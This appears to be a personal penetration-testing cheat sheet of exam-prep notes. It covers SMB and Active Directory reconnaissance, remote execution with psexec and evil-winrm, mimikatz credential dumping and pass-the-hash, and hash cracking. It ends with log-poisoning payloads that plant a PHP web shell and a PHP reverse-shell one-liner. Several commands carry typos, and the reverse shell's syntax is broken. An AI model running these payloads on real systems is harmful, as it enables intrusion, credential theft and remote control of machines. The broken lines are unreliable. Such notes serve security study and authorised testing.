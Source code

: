 Markdown語法：https://hackmd.io/@eMP9zQQ0Qt6I8Uqp2Vqy6w/SyiOheL5N/%2FBVqowKshRH246Q7UDyodFA  
https://blog.stevenyu.tw/2022/06/10/%E6%B7%B1%E5%BA%A6%E8%A7%A3%E6%9E%90-cpent-%E8%80%83%E8%A9%A6%E5%BF%83%E5%BE%97%E3%80%81%E4%BB%A5%E5%8F%8A%E8%88%87-oscp-%E7%9A%84%E6%AF%94%E8%BC%83/  
## NMAP Reacon  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1 

## AD Reacon  

# Windows  
nbtstat -A (IP)  
adreacon  
# Linux  
enum4linux-ng -A  

## Reacon SMB  
net view \\192.168.1.1  
dir \\192.168.1.1  
smbclient -L //IP -U DC_name\\acount  
nmap -n -sS -p137,138,139,448 --script smb-os-discovery 192.168.1.1  
nmap -sS -n -p 445 --script smb-protocls 192.168.1.1  

## Use SMB 
smbclient -L //IP -U DC_name\\acount  
smbclient //IP/<Folder> -U DC_name\\account  
smbclient //192.168.1.1/C$ -U DC_name\\account  

## Download File 
certutil -urlcache -split -f <URL> <輸出檔名>  

## Windows Remote  
# WinRM  
evil-winrm  
# RDP  
xfreerdp3 
# psexec  
impacket-psexec  
psexec \\192.168.1.1: cmd.exe  
# smbexec  
impacket-smbexec  

# mimikatz  
privilege::debug  
tocke::elevate  
lsadump::sam  
sekurlsa::pth /user:administrator /domain:. /ntlm:<ntlm hash>  

## GDB 
# Install Plgu-in  
# Commands  
gdb XXXX(binary name)  
b main  
run  
info registers  
disassemble main  
p system
search /bin/sh  

## Privilege Escalation  
# Overlay  
https://github.com/briskets/CVE-2021-3493  


## Firmware Analyze  
# binwalk  
binwalk -e --signature --term (Filename)  
# binwalk3  
binwalk3  
# firmware analysis toolkit(fat)  
sudo ./fat3.py (filename)  
# AttifyOS Emulation  

## Hash Cracker  
# John  
john --wordlist=/usr/share/wordlists/rockyou.txt <Filename>  
# Hashcat  

## Web Recon  
# Nikto  
# wpscan  

## Log Poison  
# SSH Log (/var/log/auth.log)  
ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.1
ssh -l '<?php system($_GET["cmd"]); ?>'@192.168.1.1
# Apache Log (/var/log/apache2/access.log)  
User-Agent: <?php system($_GET['cmd']); ?>

## Reverse Shell
# php
``` php -r '$sock=fsockopen("192.168.1.1",4444);$proc=proc_open("/bin/sh -i", array(0>=$sock, 1=>$sock, 2=>sock),$pipes);' ```
